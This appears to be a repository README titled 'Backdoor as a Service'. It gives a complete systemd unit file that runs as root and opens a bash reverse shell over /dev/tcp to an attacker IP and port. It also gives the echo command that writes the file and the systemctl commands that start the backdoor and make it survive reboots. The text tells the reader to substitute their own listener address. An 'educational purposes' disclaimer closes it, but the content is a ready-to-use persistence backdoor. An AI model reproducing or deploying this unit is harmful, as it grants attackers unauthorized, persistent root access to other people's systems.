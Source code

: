 # Backdoor as a Service
Backdoors as services (BaaS) for unauthorized access. Below is an example of a BaaS configuration encapsulated in a single file (`backdoor.service`)

## Setup
the file have to be placed only in /etc/systemd/system/ and named as .service file
for create the file run 
```bash
echo '[Service]
Type=simple
User=root
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/192.168.1.107/4444 0>&1"
[Install]
WantedBy=multi-user.target' > backdoor.service
```
clean code
```ini
[Service]
Type=simple
User=root
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/192.168.1.107/4444 0>&1"

[Install]
WantedBy=multi-user.target
```
## When this service is initiated, it establishes a reverse shell connection to the attacker.
```bash
systemctl start backdoor.service
```
## To persist across reboots, execute the following command
```bash
systemctl enable backdoor.service
```
## Remember 
to replace `192.168.1.107` and `4444` with your desired IP address and port. 

## Disclaimer 
⚠️ Disclaimer: This repository is for educational purposes only. The examples provided should not be used for any malicious activities. Always ensure that you have proper authorization before attempting any security-related actions.
